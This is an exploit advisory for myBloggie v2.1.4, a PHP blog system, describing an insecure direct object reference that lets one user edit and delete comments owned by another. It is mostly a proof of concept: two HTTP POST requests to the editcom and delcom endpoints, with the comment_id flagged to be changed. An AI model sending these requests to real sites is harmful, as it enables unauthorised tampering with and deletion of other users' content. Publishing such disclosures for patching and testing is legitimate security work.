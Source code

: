# Exploit Title: myBloggie v2.1.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/mybloggie/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.4
## Exploit Description:
## myBloggie v2.1.4 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update and delete comment that owned by other user(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------

```
POST /index.php?mode=editcom&post_id=2&comment_id=2(CHANGE HERE) HTTP/1.1
...

commentsubject=comment_from_user2&commenttext=user2+i+am+user1&commentname=user2&commentemail=user2%40test.com&commenthome=&submit=Submit&post_id=2&comment_id=
```

```
POST /index.php?mode=delcom HTTP/1.1
...

post_id=2&comment_id=2(CHANGE HERE)&confirm=yes
```